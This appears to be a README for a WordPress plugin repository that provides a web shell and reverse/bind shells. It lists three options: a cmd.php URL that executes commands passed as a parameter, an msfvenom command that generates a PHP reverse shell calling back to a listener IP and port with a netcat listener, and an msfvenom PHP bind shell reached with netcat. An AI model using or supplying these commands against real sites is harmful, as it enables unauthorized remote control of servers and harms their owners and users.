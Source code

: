 # wordpress-reverse-bind-shell

## 1st option
http://server.fun/wordpress/wp-content/plugins/wordpress-reverse-bind-shell/cmd.php?cmd=whoami

## 2nd option
msfvenom -p php/reverse_php -f raw  LHOST=10.11.0.36 LPORT=4444 -o reverse.php
nc -lvnp 4444

## 3rd option
msfvenom -p php/bind_php -f raw LPORT=4444 -o bind.php
nc server.fun 4444

## ToDo
More details...
